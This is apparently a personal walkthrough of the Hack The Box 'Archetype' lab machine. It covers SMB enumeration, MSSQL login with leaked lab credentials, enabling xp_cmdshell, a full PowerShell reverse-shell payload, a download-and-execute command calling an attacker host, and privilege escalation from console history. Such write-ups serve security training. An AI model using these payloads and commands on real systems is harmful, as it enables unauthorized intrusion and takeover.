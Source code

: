 # ARCHETYPE 
```
IP = 10.10.10.27
```

Enumeration
---------------------
+ Ran initial and all vuln nmap scan.
+ Enumerated SMB shares using:
	`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmap/smb.nmap 10.10.10.27`
+ Found /backups smb path containing a file called `prod.dtsConfig`
+ The file contains a password [M3g4c0rp123] and userID [ARCHETYPE\sql_svc]
+ Logged into the mssqlserver using impacket:
	`mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth`
+ Checked if current user has admin using:
	`SELECT IS_SRVROLEMEMBER('sysadmin')`
+ Enabled xp_cmdshell and gained RCE using following commands:
	`EXEC sp_configure 'Show Advanced Options', 1;`
	`reconfigure;`
	`sp_configure;`
	`EXEC sp_configure 'xp_cmdshell', 1`
	`reconfigure;`
	`xp_cmdshell "whoami"`

Exploitation 
---------------------
+ Now to pop a shell, store the following as powershell payload:
	`$client = New-Object System.Net.Sockets.TCPClient("10.10.14.90",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
+ Executed following command to upload and execute shell.ps1:
	`xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.90/shell.ps1\");"`

Privilege Escalation
---------------------
+ Checked windows powershell console history using:
	`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
+ Found administrator password. [MEGACORP_4dm1n!!]
Logging in as admin using impacket:
	`psexec.py administrator@10.10.10.27`